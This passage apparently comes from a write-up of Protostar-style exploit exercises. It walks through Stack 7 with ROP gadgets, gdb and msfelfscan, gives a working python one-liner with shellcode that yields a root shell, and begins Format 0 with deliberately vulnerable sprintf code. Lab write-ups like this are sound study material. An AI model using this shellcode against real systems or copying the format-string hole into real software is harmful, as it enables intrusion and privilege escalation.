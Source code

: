 ```c
}

int main(int argc, char **argv){
    getpath();
}
```

> ROP chains: taking control of the call stack in a program, it is possible to make calls to specific sequences of instructions (called gadgets) alredy present in the code, that usually end with a return so that the following instruction might also be a call to another gadget. Chaining gadgets together it is possible to perform arbitrary operations on a machine. 

1. This level has the same setup as the previous one, but the non-executable part of the stack is much larger, causing our pool of possible return addresses to get much smaller. We will therefore try to use the same approach as in Stack 5, by finding a gadget that will allow us to jump at the proper place.
2. If we do a disassemble with `gdb > disas getpath` we can see that our buffer is stored at `$ebp-0x4c`, and that this address is loaded into $eax just before the method returns. This means that the value in $eax will still be there when we will be looking at the return address, meaning we could aim at returning exactly at that specific address.
3. To find a way to jump to $eax we look for possible gadgets in our code. To do that we execute `msfelfscan -f ~/stack7 -j eax`, meaning that we are looking in stack7 for code that jumps to $eax, being it a call, a return or whatever else would result in reaching that address. The script tells us that at address 0x080484bf there is a call to $eax that does exactly what we need
4. With the usual service we check how many bytes we have to fill to go from the buffer to $eip, and the result is 80. We build our payload with the same shellcode we already used, then pad it with 25 bytes to reach the position of $eip, and as last element we give the address of our gadget:

    ```bash
    python -c "print '\x31\xc0\x31\xdb\xb0\x06\xcd\x80' + '\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80' + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + 'A' * 25 + '\xbf\x84\x04\x08'" | ./stack7
    ```

5. Upon executing this, we will be rewarded with a root shell.

### [Format 00]
String supplied directly to printing functions can contain malicious formatting

```c
void vuln(char *string){
    volatile int target;
    char buffer[64];

    target = 0;

    sprintf(buffer, string);
    
    if(target == 0xdeadbeef) {
        printf("you have hit the target correctly :)\n");
    }
}

int main(int argc, char **argv){
    vuln(argv[1]);
}
```
